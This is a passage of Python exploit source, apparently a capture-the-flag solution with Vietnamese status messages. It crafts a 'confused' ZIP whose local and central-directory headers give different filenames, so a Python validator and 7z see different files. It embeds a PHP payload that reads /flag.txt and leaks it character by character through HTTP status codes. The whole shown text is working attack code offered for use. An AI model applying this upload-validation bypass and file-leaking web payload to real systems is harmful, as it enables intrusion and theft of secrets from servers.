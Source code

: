 ```
    
    central_header = b'PK\x01\x02'
    central_header += b'\x14\x00'
    central_header += b'\x14\x00'
    central_header += b'\x00\x00'
    central_header += b'\x00\x00'
    central_header += b'\x00\x00\x00\x00'
    central_header += struct.pack('<I', crc32)
    central_header += struct.pack('<I', compressed_size)
    central_header += struct.pack('<I', uncompressed_size)
    central_header += struct.pack('<H', len(central_filename))
    central_header += b'\x00\x00'
    central_header += b'\x00\x00'
    central_header += b'\x00\x00'
    central_header += b'\x00\x00'
    central_header += b'\x00\x00\x00\x00'
    central_header += b'\x00\x00\x00\x00'
    central_header += central_filename
    
    output.write(central_header)
    
    eocd = b'PK\x05\x06'
    eocd += b'\x00\x00'
    eocd += b'\x00\x00'
    eocd += b'\x01\x00'
    eocd += b'\x01\x00'
    eocd += struct.pack('<I', output.tell() - cd_offset)
    eocd += struct.pack('<I', cd_offset)
    eocd += b'\x00\x00'
    
    output.write(eocd)
    
    with open(output_zip_path, 'wb') as f:
        f.write(output.getvalue())

    print(f"[+] Đã tạo file ZIP tinh vi: {output_zip_path}")
    print(f"[+]   Trình giải nén (7z) sẽ thấy: {local_filename.decode()}")
    print(f"[+]   Trình kiểm tra (Python) sẽ thấy: {central_filename.decode()}")

if __name__ == "__main__":
    payload_php = """<?php
    $flag = file_get_contents('/flag.txt');

    $pos = isset($_GET['pos']) ? intval($_GET['pos']) : 0;
    $char_to_compare = isset($_GET['char']) ? $_GET['char'] : '';

    if ($pos < strlen($flag) && $char_to_compare !== '') {
        $secret_char = $flag[$pos];
        if ($secret_char > $char_to_compare) {
            http_response_code(200);
        } else {
            http_response_code(404);
        }
    } else {
        http_response_code(400);
    }
    ?>"""
    
    create_confused_zip(payload_php, 'exploit.zip')
    
    print("\n[+] Đang tự kiểm tra...")
    try:
        with zipfile.ZipFile('exploit.zip', 'r') as zf:
```